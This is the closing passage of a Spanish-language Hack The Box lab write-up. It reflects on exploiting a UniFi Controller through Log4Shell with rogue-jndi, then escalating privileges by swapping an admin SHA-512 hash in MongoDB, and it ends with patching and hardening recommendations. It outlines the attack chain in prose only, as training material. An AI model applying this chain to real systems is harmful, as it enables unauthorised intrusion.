5. **Metodología de enumeración**: La identificación de MongoDB como vector de ataque me enseñó la importancia de entender el contexto de la aplicación (UniFi Controller usa MongoDB) y seguir metodologías sistemáticas de enumeración en privilege escalation.

**Dificultades encontradas:**

- Inicialmente intenté técnicas de inyección SQL sin éxito, lo que me llevó a investigar vulnerabilidades específicas de UniFi Controller.
- La configuración correcta de rogue-jndi con los puertos adecuados requirió entender el flujo completo del ataque Log4Shell.
- Comprender la estructura de hashes SHA-512 y cómo generar hashes válidos con `mkpasswd` fue necesario para la escalada de privilegios.

**Recomendaciones de seguridad:**

- Mantener todas las bibliotecas y dependencias actualizadas, especialmente bibliotecas críticas como Log4j que son ampliamente utilizadas.
- Implementar parches de seguridad inmediatamente cuando se descubren vulnerabilidades críticas como Log4Shell.
- Configurar MongoDB con autenticación adecuada, incluso para conexiones locales.
- No almacenar credenciales de administrador en bases de datos sin protección adicional.
- Implementar logging y monitoreo para detectar intentos de explotación de vulnerabilidades conocidas.
- Validar y sanitizar todas las entradas del usuario antes de registrarlas en logs.

Esta máquina fue una excelente práctica que combinó explotación de vulnerabilidades críticas en bibliotecas Java, manipulación de bases de datos NoSQL y metodologías sistemáticas de privilege escalation.

# References

1. [Hack The Box](https://www.hackthebox.com/)
2. [Hack The Box Forum](https://forum.hackthebox.com/)
3. [Pandoc LaTeX Template](https://github.com/Wandmalfarbe/pandoc-latex-template)

# PWNED

[PWNED LINK](https://labs.hackthebox.com/achievement/machine/2794675/441)
